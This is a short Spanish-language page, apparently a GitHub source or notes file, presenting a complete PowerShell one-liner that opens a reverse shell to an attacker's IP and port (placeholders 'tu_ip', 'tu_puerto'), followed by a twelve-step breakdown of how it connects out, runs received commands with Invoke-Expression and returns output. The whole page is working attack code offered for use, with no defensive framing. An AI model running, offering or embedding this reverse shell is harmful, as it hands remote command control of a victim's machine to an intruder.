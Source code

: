 One-liner de PowerShell para establecer una reverse shell:

```PowerShell
powershell -c "$client = New-Object System.Net.Sockets.TcpClient('tu_ip', tu_puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

1. `powershell -c "`: Esto indica que se está ejecutando PowerShell y que se proporcionará un comando a través de la opción `-c`, que permite ejecutar un comando como argumento de la línea de comandos de PowerShell.
    
2. `"$client = New-Object System.Net.Sockets.TcpClient('tu_ip', tu_puerto);"`: Esta parte del código crea un objeto `TcpClient` de .NET para establecer una conexión TCP con la dirección IP y el puerto especificados del atacante. Reemplaza `'tu_ip'` y `'tu_puerto'` con la dirección IP y el puerto del atacante.
    
3. `"$stream = $client.GetStream();"`: Se obtiene el flujo de datos asociado con el cliente TCP recién creado.
    
4. `"[byte[]]$bytes = 0..65535|%{0};"`: Se inicializa un arreglo de bytes vacío con una longitud máxima de 65536 bytes. Esto se usará para almacenar los datos recibidos de la conexión.
    
5. `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;`: Se inicia un bucle `while` que continúa leyendo datos del flujo hasta que no hay más datos disponibles.
    
6. `;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);`: Se convierten los bytes leídos en una cadena ASCII.
    
7. `;$sendback = (iex $data 2>&1 | Out-String );`: Se ejecuta el comando recibido (`$data`) utilizando `iex`, que es un alias para el cmdlet `Invoke-Expression`. Esto ejecuta el comando y captura su salida. El `2>&1` redirige los errores a la salida estándar. `Out-String` convierte la salida en una cadena para su posterior envío.
    
8. `;$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';`: Se crea una cadena que contiene la salida del comando ejecutado y la ruta del directorio actual de PowerShell, para simular un indicador de comando (`PS`).
    
9. `;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);`: Se convierte la cadena `$sendback2` en una secuencia de bytes utilizando codificación ASCII.
    
10. `;$stream.Write($sendbyte,0,$sendbyte.Length);`: Se envían los bytes al flujo de datos para que sean transmitidos al atacante.
    
11. `;$stream.Flush()};`: Se vacía el búfer de salida para asegurarse de que todos los datos se envíen al atacante.
    
12. `$client.Close()"`: Se cierra la conexión TCP con el atacante una vez que el bucle `while` ha terminado de ejecutarse.

